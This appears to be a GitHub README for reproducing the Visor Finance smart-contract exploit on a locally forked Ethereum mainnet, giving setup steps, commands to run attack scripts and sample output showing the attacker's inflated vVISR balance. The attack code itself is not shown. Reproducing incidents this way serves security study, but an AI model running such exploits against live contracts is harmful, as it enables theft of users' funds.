 # Visor exploit

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.js`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0x720472c8ce72c2A2D711333e064ABD3E6BbEAdd3
Exploiting... transcation: 0xacbb306938a1746da161700ea9a76ffd0f0a5c749dd543f8572aef34b2b94ab7
exploit complete
Attacker vVISR balance:97624975.48181573
```
This means the attack is complete
> The block height of the fork is 13849006

If you want to test another vulnerability, run
```bash
hardhat run scripts/attack2.js
```
## link

* https://twitter.com/VisorFinance/status/1473306777131405314
